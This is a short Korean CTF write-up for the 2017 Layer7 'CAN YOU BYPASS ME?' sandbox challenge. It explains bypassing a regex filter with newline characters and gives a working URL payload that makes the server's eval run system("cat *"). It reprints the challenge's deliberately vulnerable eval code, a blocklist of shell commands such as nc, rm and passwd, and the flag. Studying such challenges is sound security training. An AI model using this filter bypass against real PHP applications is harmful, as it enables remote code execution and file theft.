 # [2017 Layer7 CTF] CAN YOU BYPASS ME? - Writeup

## Sandbox Jail

정규표현식에서 `s` 플래그가 없으면 `.`이 개행문자(`\n`)를 포함하지 않는다는 점을 이용한 필터링 우회 문제다.

`.php`를 필터링하는건 와일드카드를 이용하여 우회해주자.

[http://ctf.layer7.kr:6001/?eval=system%28%0a%22%0acat+*%22%0a%29%3B](http://ctf.layer7.kr:6001/?eval=system%28%0a%22%0acat+*%22%0a%29%3B)

```
<?php
# config.php
error_reporting(0);

function php_info(){
    exit('PHP Version 7.0.18-0ubuntu0.16.10.1');
}

$filter = "/\||\/|\.\.|config|fwrite|fputs|shutdown|halt|".
"reboot|init|rm|mv|cp|remove|rename|copy|grep|nc|unlink|find|".
"apt|yum|passwd|chmod|chown|ln|kill|lilo|ssh|telnet/i";

$implode = implode($_REQUEST);

if(preg_match($filter, $implode)){
	exit('403 forbidden');
}
?>
<?php
# flag is {flagflagflagflagfalgflagaflaglafg}
?>
<?php
# made by munsiwoo
error_reporting(0);
include 'config.php';

if(isset($_GET['phpinfo'])){
	php_info();
}

if(isset($_GET['eval'])){
    $filter = '/_|(.*)(\'|\"|\`|\()(.*)(\'|\"|\`|\))|(.php|\=|\$)/i';
    if(preg_match($filter, $_GET['eval'])){
		exit('nope');
    }
    # 403 forbidden : system filter
    eval($_GET['eval']);
}

echo '<hr>';
highlight_file(__FILE__);
```

___

## Answer

flag: `flagflagflagflagfalgflagaflaglafg`